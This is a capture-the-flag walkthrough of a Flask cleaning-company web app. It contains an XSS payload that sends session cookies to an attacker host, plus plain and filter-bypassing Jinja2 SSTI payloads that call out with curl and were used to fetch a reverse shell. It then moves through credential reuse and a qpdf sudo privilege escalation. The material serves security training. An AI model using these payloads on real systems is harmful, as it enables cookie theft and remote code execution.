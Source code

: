 # PORT SCAN
*	**20** &#8594; SSH
*	**80** &#8594;  HTTP (Apache 2.4.52)

<br><br><br>

# ENUMERATION & USER FLAG
The website is a static presentation card of a cleaning company, nothing complicated but have a login form

![66beb196f8cddf5cb885c8d18bc8b54f.png](img/66beb196f8cddf5cb885c8d18bc8b54f.png)

The only thing we can do is a POST request to `/sendMessage` through the `/quote` page

![ccbc252b53584d155ce682d3309468fb.png](img/ccbc252b53584d155ce682d3309468fb.png)

Since I have nothing to play with we can try to perform XSS on this POST request, if we are lucky enough we may recover the cookie of the operator that received the quote request. Using a traditional XSS payload should be enough
```
<img src=x onerror=this.src='http://[IP]:[PORT]/?c='+document.cookie>
```

We can intercept the request and inject this payload on the service POST variable (URL encoded)

![952508809db943f6f68e99bbcbdd639c.png](img/952508809db943f6f68e99bbcbdd639c.png)

After sending the payload we can use netcat (or a simple PHP server) to intercept the request which will include the cookie

![c21ac6a0350698e1ca97a6b4b6c1e738.png](img/c21ac6a0350698e1ca97a6b4b6c1e738.png)

While I was doing this GoBuster retrive this list of web directories

![16b537f710034bf72f0a343693c10eb0.png](img/16b537f710034bf72f0a343693c10eb0.png)

`/dashboard` redirect us to the homepage, probably because we need to login and get the cookie to access it. I save my new captured cookie and use it anvigating directly to the dashboard page. After setting it up manually we have access to the restricted page

![fa2d8791a43189a9043a10e1bd829914.png](img/fa2d8791a43189a9043a10e1bd829914.png)

The dashboard permits to create some invoice and the QR code to use on the bill paper, it works in this way : 
1) Generate an Invoice (with the predefined services)
2) Generate a QR which would return you the link for the QR image
3) Use the brand new generated link to create the billing paper

The result would look like this

![b0726109e40d78518f95ebd0fffb03ee.png](img/b0726109e40d78518f95ebd0fffb03ee.png)

Cool, I have forgot to write that the webapp is using **<u>flask</u>** as web framework

![328ef03c51ebcaa2c3ed9ed225b9cfab.png](img/328ef03c51ebcaa2c3ed9ed225b9cfab.png)

This means SSTI could be possible and we can try to execute this. My favorite resource for SSTI is from [exploit notes](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) where I tried this simple SSTI
```
{{request.application.__globals__.__builtins__.__import__('os').popen('curl [IP]/LOL').read()}}
```

I used during the step 3 using the payload as the URL of the QR

![3acabfae6f5c12acd7f1a5e28d47842a.png](img/3acabfae6f5c12acd7f1a5e28d47842a.png)

Looks cool but the page returned with **error 500**, an internal error is pretty strange behaviour but searching online this can be related with some filtering applied to mitigate SSTI. Don't lose theh ope yet becuase the resource I linked above offer a version that should be abl to bypass filtering

```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl [IP]/LOL")|attr("read")()}}
```

Luckly this worked smoothly!

![9bed6cc8ee3cf262a7aaddc5817de710.png](img/9bed6cc8ee3cf262a7aaddc5817de710.png)

This is cool, we can execute whatever OS command not just curl so I can host in my local server a simple reverse shell and use the SSTI bypass filtering version to fetch it and execute it

![b297286a8673e43a5db377f754e6c66e.png](img/b297286a8673e43a5db377f754e6c66e.png)

We are spawned in `/opt/app` containing the file app.py which have some hardcoded credentials for the database. 

![8a778ae42303565375b03ff10dfb65c3.png](img/8a778ae42303565375b03ff10dfb65c3.png)

Looking through `systemctl` service status I know that mysql is running so I login to extract all the users data inside the database **CapiClean**. We have the hash f a username which exist in the Linux machine too

![a7bc4534240626a4c83f07287a1faf5a.png](img/a7bc4534240626a4c83f07287a1faf5a.png)

We can easily retrieve the plaintext 

![c9eceb72e4379ffdca51fc81c75ac10d.png](img/c9eceb72e4379ffdca51fc81c75ac10d.png)

Easy, we can SSH in as `consuela` and get the first flag

![897274290e8e114f80841eeb2e8abf21.png](img/897274290e8e114f80841eeb2e8abf21.png)

<br><br><br>

# PRIVILEGE ESCALATION

Now with this user we can run as **root** the tool **<u>qpdf</u>**

![29005c720eb82475f6ea006774b158b9.png](img/29005c720eb82475f6ea006774b158b9.png)

This CLI utility which can convert a PDF to another PDF adding attachment, metadata and more. Nothing complicated but I never use this tool so some RTFM was needed to figure out how to take the last flag. After reading the official documentation I was able to extract the root flag in this way

![6724f938af36ba814a365378ad292b3b.png](img/6724f938af36ba814a365378ad292b3b.png)

But what happened exactly? The first flag (`--empty`) specify that the PDF input is a (dummy) empty one while the second parameter specify the output file, in this case will read a file and every line would return as filename of the results. Here, thanks to the sudo permissions we can read the root flag and **<u>the generated PDF would be an empty one named as the flag content</u>**. Same thing can be applied to the private SSH key. I looked at ohers writeup and the "intended" way was to add an attachment to the PDF (SSH private key) and extract it with **binwalk**, you can look it through the other writeups
